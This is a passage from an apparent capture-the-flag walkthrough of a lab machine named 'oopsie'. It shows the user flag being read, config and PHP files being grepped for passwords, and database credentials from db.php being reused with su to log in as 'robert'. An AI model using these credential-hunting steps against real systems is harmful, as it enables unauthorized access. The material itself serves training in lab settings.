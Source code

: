 From now on, we are able to view the user flag. 

```          bash
$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

We're going to search for files responsible for logging inside the web  server directory while checking for any invalid configurations. We will  use this command : 

``` www-data@oopsie://var/www/html/cdn-cgi/login$ cat * | grep -i pass*```  

We found some interesting data.

```bash
www-data@oopsie://var/www/html/cdn-cgi/login$ cat * | grep -i pass*
cat * | grep -i pass*
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```



By checking the available users in the `/etc/passwd` file, we found only two users with bash privileges: Robert and root. We can try  to use the password from the file with the user 'Robert'. 

```bash
www-data@oopsie:/etc$ su robert
su robert
Password: MEGACORP_4dm1n!!

su: Authentication failure
```



Unfortunately, this isn't the password for the user 'Robert,' so we continue searching.

We found something interesting inside `db.php`.

```bash
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

We tried these as well.

```bash 
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert 
su robert 
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$ 
```

We got it! We're logged in as the user Robert. Now, let's proceed with privilege escalation.


